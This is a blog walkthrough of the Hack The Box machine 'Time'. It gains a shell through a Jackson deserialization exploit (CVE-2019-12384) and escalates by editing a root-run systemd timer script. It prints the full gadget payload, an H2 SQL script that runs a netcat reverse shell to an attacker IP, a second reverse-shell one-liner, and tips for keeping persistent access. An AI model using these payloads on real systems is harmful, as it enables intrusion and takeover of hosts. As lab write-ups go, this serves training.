 ```yaml
---
layout: single
title: 'Walktrough: HTB Time'
namespace: htb-time
category: Walkthrough
tags:
- HackTheBox
- Jackson
- FasterXML
- Service Hijack
- HTB Linux
- HTB Medium
date: 2021-04-03T16:00:00.000+00:00
header:
  teaser: https://i.imgur.com/jiSvU4u.png
  og_image: *teaser
redirect_from: "/writeup/2021/04/htb-time"
---
```

Hello everyone!

The machine of this week will be **Time**, another Linux box medium rated from [Hack The Box](https://www.hackthebox.eu), created by [
egotisticalSW](https://app.hackthebox.eu/users/94858) and [felamos](https://app.hackthebox.eu/users/27390).<!--more-->

:information_source: **Info**: Write-ups for Hack the Box are always posted as soon as machines get retired.
{: .notice--info}

![HTB Time](https://i.imgur.com/mJmeefG.png){: .align-center}

## Enumeration

We start with the enumeration of published services using a `nmap` quick scan, where we can see the output below:

```bash
$ nmap -sC -sV -Pn -oA quick 10.10.10.214
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-26 16:08 -03
Nmap scan report for 10.10.10.214
Host is up (0.077s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 0f:7d:97:82:5f:04:2b:e0:0a:56:32:5d:14:56:82:d4 (RSA)
|   256 24:ea:53:49:d8:cb:9b:fc:d6:c4:26:ef:dd:34:c1:1e (ECDSA)
|_  256 fe:25:34:e4:3e:df:9f:ed:62:2a:a4:93:52:cc:cd:27 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Online JSON parser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.70 seconds
```

### 80/TCP - HTTP Service

Starting by checking the HTTP service published on port 80, noticed that we have a JSON Validation and Beautifier service.

![Online JSON Parser - Time](https://i.imgur.com/V6RbC9L.png){: .align-center}

After some enumeration with `whatweb` and `nikto`, I haven't found anything useful, so I proceeded to app experimentation, looking for some vulnerability that could lead us to some code injection or LFI.

Analyzing the application, we have two functionalities: **Beautify** and **Validate**:

- The option beautify, after receiving a valid JSON, formats it in a pretty manner and, sending an invalid content (e.g. "test"), returns a `null` value.

![Online JSON Parser - Time - beautify](https://i.imgur.com/tpO2p3r.png){: .align-center}

- The Validate option (in beta) checks the syntax of the JSON provided. When we send an invalid request (e.g. "test"), the exception below is returned.

  ```plaintext
  Validation failed: Unhandled Java exception: com.fasterxml.jackson.core.JsonParseException: Unrecognized token 'test': was expecting 'null', 'true', 'false' or NaN
  ```

## Initial Access

After searching for `com.fasterxml.jackson.core` I have found about the **Jackson** project, developed by **FasterXML** and from which core is the base component for [jackson-databind](https://github.com/FasterXML/jackson-databind), a popular JSON library, here used to implement the formatting and validating features.

Looking for CVEs on jackson-databind, I have found the following for code execution published in 2019, according to the page [CVE Details](https://www.cvedetails.com):

![CVE Details](https://i.imgur.com/T2Kth6e.png){: .align-center}

Of the 4 listed, I have found for **CVE-2019-12384** a working PoC at [this blog](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html), which I have used to gain initial access to the box. The following steps were used to get a reverse shell:

- Created a file called `inject.sql` with the code below, modified from the version at the blog, to start a reverse shell to the attacker machine at 4443 and published using a python3 HTTP server (`sudo python3 -m http.server 80`) from the directory where the file resides.

  ```sql
  CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
      String[] command = {"bash", "-c", cmd};
      java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
      return s.hasNext() ? s.next() : "";  }
  $$;
  CALL SHELLEXEC('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f')
  ```

- Configured listener using netcat by running `nc -lnvp 4443`.
- Sent payload below in the application instead of a JSON content to be validated.

  ```plaintext
  ["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.10.10/inject.sql'"}]
  ```

![Listener and Webserver - Time](https://i.imgur.com/7o42urH.png){: .align-center}

![Online Json Parser - Sending the payload](https://i.imgur.com/Pv2Vbzy.png){: .align-center}

## User flag

After upgrading the shell, started enumeration where was identified that the user we were using, **pericles**, was a regular Linux user with no special permissions granted.

```bash
pericles@time:/var/www/html$ id
uid=1000(pericles) gid=1000(pericles) groups=1000(pericles)
```

Accessing its root directory found the user flag, as below.

```bash
pericles@time:/var/www/html$ cd ~
pericles@time:/home/pericles$ cat user.txt 
<redacted>
pericles@time:/home/pericles$ 
```

## Root flag

Before continuing enumeration, to make easier regaining access if needed, created an SSH key using `ssh-keygen` and configured the public key in the file `~/.ssh/authorized_keys`, allowing us to directly connect to the user pericles via SSH.

The enumeration was done by running `linpeas.sh` and one of the findings called attention, referring to the machine name: a shell file owned by `pericles` in the path `/usr/bin/timer_backup.sh`.

This file is configured as a **system timer** (`/etc/systemd/system/timer_backup.timer` and `/etc/systemd/system/timer_backup.service`) and set be executed **every 10 seconds** as `root`.

As we have enough permissions to edit the shell script, I have added the line below to return a reverse shell on the attacker machine and, after a few seconds, a reverse shell was obtained! :smile:

```bash
rm /tmp/g;mkfifo /tmp/g;cat /tmp/g|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/g
```

As the process is re-executed every 10 sec the process tree is terminated, and we lose the existing connection to the machine. To just get the root flag this time is sufficient, which was as done initially.

```bash
$ nc -lnvp 4443
listening on [any] 4443 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.214] 33304
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
<redacted>
#      
```

In case you want to get a persistent connection at this machine we have two initial options:

- Configure the system timer to add the public key in the `/root/.ssh/authorized_keys` file, allowing us to SSH as `root`.
- Spawn another reverse shell as soon as we get the initial connection, which can be done in multiple ways like Metasploit AutoRunScript and `netcat`, prepending the listener with the instruction to send the payload as soon as it gets connected, as you can see in an example below where the `id` command is executed as soon as the session is started:

```bash
printf "id\n" | nc -lnvp 4443
```

I hope this was useful to you and see you guys in the next post! :smiley:
